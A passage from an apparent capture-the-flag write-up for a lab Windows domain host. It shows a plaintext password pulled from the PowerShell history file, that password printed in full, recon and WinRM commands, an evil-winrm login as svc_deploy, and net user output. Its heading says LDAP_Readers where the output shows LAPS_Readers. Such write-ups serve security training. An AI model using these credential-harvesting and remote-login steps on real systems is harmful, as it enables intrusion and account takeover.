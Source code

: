 ```shell
type $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

```shell
whoami
ipconfig /all
netstat -ano |select-string LIST
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
invoke-command -computername localhost -credential $c -port 5986 -usessl -
SessionOption $so -scriptblock {whoami}
get-aduser -filter * -properties *
exit
```

We can now use these credentials to get access as svc_deploy using evil-winrm using the -S parameter for SSL:

```shell
evil-winrm -i 10.129.141.135 -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV' -S
```

### svc_deploy is part of LDAP_Readers users
If we use the command net user with svc_deploy, we will find out that its a part of LDAP_Readers users:

```shell
net user svc_deploy
```

```shell
User name                    svc_deploy
Full Name                    svc_deploy
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            10/25/2021 11:12:37 AM
Password expires             Never
Password changeable          10/26/2021 11:12:37 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   10/25/2021 11:25:53 AM

Logon hours allowed          All

Local Group Memberships      *Remote Management Use
Global Group memberships     *LAPS_Readers         *Domain Users
The command completed successfully.
```
